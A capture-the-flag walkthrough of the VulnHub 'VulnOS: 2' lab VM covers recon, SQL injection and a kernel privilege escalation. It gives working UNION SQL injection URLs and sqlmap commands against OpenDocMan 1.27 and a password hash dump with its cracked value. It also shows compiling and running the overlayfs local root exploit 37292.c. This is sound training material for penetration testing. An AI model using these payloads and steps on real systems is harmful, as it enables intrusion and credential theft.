



# VulnOS: 2 Walkthrough


---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/vulnos-2,147/](https://www.vulnhub.com/entry/vulnos-2,147/)

> **VulnOS are a series of vulnerable operating systems packed as virtual images to enhance penetration testing skills**
>
> This is version 2 - Smaller, less chaotic !
>
> As time is not always on my side, It took a long time to create another VulnOS. But I like creating them. The image is build with VBOX. Unpack the file and add it to your virtualisation software.
>
> **Your assignment is to pentest a company website, get root of the system and read the final flag**
>
> NOTE : current keyboard preferences is BE "pentesting is a wide concept"
>
> If you have questions, feel free to contact me on m4db33f@gmail dot com Shout out to the Vulnhub Testing team!
>
> Hope you enjoy.

---

# Stage 1: Reconnaissance

Tools used:
* nmap
* curl

First of all, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.100 -T4

Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EDT
Nmap scan report for 192.168.1.100
Host is up (0.00013s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.82 seconds

root@kali:~# curl 192.168.1.100:6667
ERROR :"Oops, HTTP request received? This is IRC!"
```




---

# Stage 2: Enumeration

Tools used:
* nikto
* curl

Let's try nikto on the `/jabc` subpath:

```
root@kali:~# nikto -host http://192.168.1.100/jabc
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.100
+ Target Hostname:    192.168.1.100
+ Target Port:        80
+ Start Time:         xxxx-xx-xx xx:xx:xx (GMT)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.14
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-generator' found, with contents: Drupal 7 (http://drupal.org)
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-3268: /jabc/scripts/: Directory indexing found.
+ Server leaks inodes via ETags, header found with file /jabc/robots.txt, fields: 0x619 0x53099f194b54d 
+ OSVDB-3268: /jabc/includes/: Directory indexing found.
+ Entry '/includes/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /jabc/misc/: Directory indexing found.
+ Entry '/misc/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /jabc/modules/: Directory indexing found.
+ Entry '/modules/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /jabc/profiles/: Directory indexing found.
+ Entry '/profiles/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/scripts/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ OSVDB-3268: /jabc/themes/: Directory indexing found.
+ Entry '/themes/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/install.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/xmlrpc.php' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=filter/tips/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=user/password/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=user/register/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/?q=user/login/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 36 entries which should be manually viewed.
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ OSVDB-3092: /jabc/includes/: This might be interesting...
+ OSVDB-3092: /jabc/misc/: This might be interesting...
+ OSVDB-3092: /jabc/scripts/: This might be interesting... possibly a system shell found.
+ OSVDB-3092: /jabc/install.php: Drupal install.php file found.
+ OSVDB-3092: /jabc/install.php: install.php file found.
+ OSVDB-3092: /jabc/xmlrpc.php: xmlrpc.php was found.
+ OSVDB-3268: /jabc/sites/: Directory indexing found.
+ 8383 requests: 0 error(s) and 36 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT) (25 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Looks like a Drupal 7 installation.

```
root@kali:~# curl http://192.168.1.100/jabc/robots.txt
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/wc/robots.html
#
# For syntax checking, see:
# http://www.sxw.org.uk/computing/robots/check.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

---

# Stage 3: Exploitation

Tools used:
* sqlmap
* hash-identifier

Looking at the different pages on the website, I noticed that the Documentation page is blank. Turns out that there IS text on the page, but its font colour is changed to hide in the background, revealing a hidden page and the user credentials:





Logging in with the credentials, I noticed that it is an installation of OpenDocMan 1.27, which contains a public exploit [https://www.exploit-db.com/exploits/32075/](https://www.exploit-db.com/exploits/32075/).

Let us take advantage of that.

Trying `http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9` tells us that the PHP version is **5.5.47-0ubuntu0.14.04.1**.

Trying `http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,database%28%29,3,4,5,6,7,8,9` tells us that the current database is **jabcd0cs**.

Trying `http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,user%28%29,3,4,5,6,7,8,9` tells us that the current user is **root@localhost**. This means we have a high chance of exploiting a privileged database user.

Trying `http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,user,3,4,5,6,7,8,9%20from%20mysql.user` (privileged command) tells us that the mysql.user table contains the users `root`, `debian-sys-maint`, `drupal7`, `phpmyadmin`.

At this point doing SQL injection manually can be quite time-consuming. Hence, let us turn to `sqlmap` for help. I needed to run level 2 tests in order for `sqlmap` to detect the injection flaw (sqlmap -u "http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -p add_value --level=2)

```
root@kali:~# sqlmap -u "http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -p add_value -D jabcd0cs -T odm_user --dump

// output truncated
Database: jabcd0cs                                                                                                                                  
Table: odm_user
[2 entries]
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| id | phone       | Email              | username | password                                 | last_name | first_name | department | pw_reset_code |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
| 1  | 5555551212  | webmin@example.com | webmin   | b78aae356709f8c31118ea613980954b         | min       | web        | 2          | <blank>       |
| 2  | 555 5555555 | guest@example.com  | guest    | 084e0343a0486ff05530df6c705c8bb4 (guest) | guest     | guest      | 2          | NULL          |
+----+-------------+--------------------+----------+------------------------------------------+-----------+------------+------------+---------------+
```


Let us try to crack the password of user `webmin`. Using an online md5 hash decryptor, we quickly deduce that the password is `webmin1980`. However, it took me awhile to realise that we can actually get in through the front door (SSH). Anyways, now that we're in, we can start finding privilege escalation vectors:

```
webmin@VulnOSv2:~$ uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux

webmin@VulnOSv2:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.4 LTS"
NAME="Ubuntu"
VERSION="14.04.4 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.4 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"

root@kali:~/drupal/gitexd-drupalorg/drupalorg# searchsploit linux 3.13
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
------------------------------------------------------------------------------------------------------------------ ----------------------------------
 Exploit Title                                                                                                    |  Path
                                                                                                                  | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------ ----------------------------------
Linux Kernel 3.13 - SGID Privilege Escalation (PoC)                                                               | exploits/linux/local/33824.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation              | exploits/linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc | exploits/linux/local/37293.txt
Linux Kernel 3.13.1 - 'Recvmmsg' Local Privilege Escalation (Metasploit)                                          | exploits/linux/local/40503.rb
Linux Kernel 3.13/3.14 (Ubuntu) - 'splice()' System Call Local Denial of Service                                  | exploits/linux/dos/36743.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Privilege Escalation (3)            | exploits/lin_x86-64/local/31347.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_X86_X32' Arbitrary Write (2)                                   | exploits/linux/local/31346.c
Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (PoC)                                                             | exploits/linux/dos/31305.c
id Software Solaris Quake II 3.13/3.14 / QuakeWorld 2.0/2.1 / Quake 1.9/3.13/3.14 - Command Execution             | exploits/linux/remote/19079.c
pam-krb5 < 3.13 - Local Privilege Escalation                                                                      | exploits/linux/local/8303.c
------------------------------------------------------------------------------------------------------------------ ----------------------------------
```

Since the Linux Kernel version is 3.13.0 running on Ubuntu 14.04, we can try the exploit on `/usr/share/exploitdb/exploits/linux/local/37292.c` for a greater chance of success. Uploading the exploit code is as easy as `scp 37292.c webmin@192.168.1.100:~/37292.c` given our easy SSH access.

```
webmin@VulnOSv2:~$ which gcc
/usr/bin/gcc
webmin@VulnOSv2:~$ gcc -o 37292 37292.c 
webmin@VulnOSv2:~$ chmod +x 37292
webmin@VulnOSv2:~$ ./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cat /root/flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```

Challenge complete!

---

# Lessons Learnt

* Do not overthink on attack vectors. Try the most obvious entrances first. Instead of finding LFI and arbitrary file upload vulnerabilities all the time, sometimes SSH access is available, so it doesn't hurt to try logging in with the user credentials you find.